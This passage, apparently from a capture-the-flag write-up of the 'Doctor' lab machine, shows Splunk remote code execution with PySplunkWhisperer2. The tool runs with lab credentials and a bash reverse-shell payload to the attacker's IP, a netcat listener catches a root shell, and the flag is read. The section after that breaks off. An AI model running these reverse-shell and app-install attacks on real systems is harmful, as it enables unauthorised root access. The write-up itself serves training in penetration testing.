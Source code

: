 Now I’ll start `nc` and change the payload from `ping` to a reverse shell:

    
    
    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpceoe88rl.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:17:57] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    
    [.] Removing app...
    [+] App removed
    [+] Stopped HTTP server
    Bye!
    

At `nc` a root shell connected:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40142.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    root@doctor:/# 
    

And I can grab `root.txt`:

    
    
    root@doctor:/root# cat root.txt
    fba452cc************************
    

## Beyond Root

### Leftover Artifact

I had an interesting experience while working on Doctor, and managed (with a
bit of help from Jkr) to work out what was going on.

#### Situation

If I create an account on the webpage after the first time the database is
reset, and then reset the box, once the box comes up, if I refresh the
homepage, I get this:
